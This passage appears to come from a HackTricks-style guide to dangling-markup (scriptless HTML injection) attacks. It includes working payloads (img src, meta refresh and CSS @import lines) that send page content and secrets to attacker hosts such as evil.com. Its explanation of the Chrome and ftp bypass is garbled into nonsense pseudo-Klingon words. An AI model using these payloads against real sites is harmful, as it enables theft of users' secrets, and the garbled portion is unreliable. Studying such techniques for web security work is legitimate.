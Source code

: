 # Dangling Markup - HTML scriptless injection

<details><summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary></details>

## Resume

This technique can be use to extract information from a user when an **HTML injection is found**. This is very useful if you **don't find any way to exploit a** [**XSS** ](../xss-cross-site-scripting/)but you can **inject some HTML tags**.\
It is also useful if some **secret is saved in clear text** in the HTML and you want to **exfiltrate** it from the client, or if you want to mislead some script execution.

Several techniques commented here can be used to bypass some [**Content Security Policy**](../content-security-policy-csp-bypass/) by exfiltrating information in unexpected ways (html tags, CSS, http-meta tags, forms, base...).

## Main Applications

### Stealing clear text secrets

If you inject `<img src='http://evil.com/log.cgi?` when the page is loaded the victim will send you all the code between the injected `img` tag and the next quote inside the code. If a secret is somehow located in that chunk, you will steal i t(you can do the same thing using a double quote,take a look which could be more interesting to use).

If the `img` tag is forbidden (due to CSP for example) you can also use `<meta http-equiv="refresh" content="4; URL='http://evil.com/log.cgi?`
```html
<img src='http://attacker.com/log.php?HTML=
<meta http-equiv="refresh" content='0; url=http://evil.com/log.php?text=
<meta http-equiv="refresh" content='0;URL=ftp://evil.com?a=
```
**ghItlhvam** **Chrome** **HTTP URLs** **block** **"<"** **'ej** **"\n"** **vaj** **vItlhutlh** **'e'** **"ftp"** **protocol schemes** **'e'** **tlhIngan** **vItlhutlh**.

**CSS** **`@import`** **'e'** **ghItlhvam** **(vItlhutlh** **vaj** **";"** **vItlhutlh** **vaj** **code** **bI'el) vItlhutlh** **vaj** **'e'** **tlhIngan** **vItlhutlh**.
```html
<style>@import//hackvertor.co.uk?     <--- Injected
<b>steal me!</b>;
```
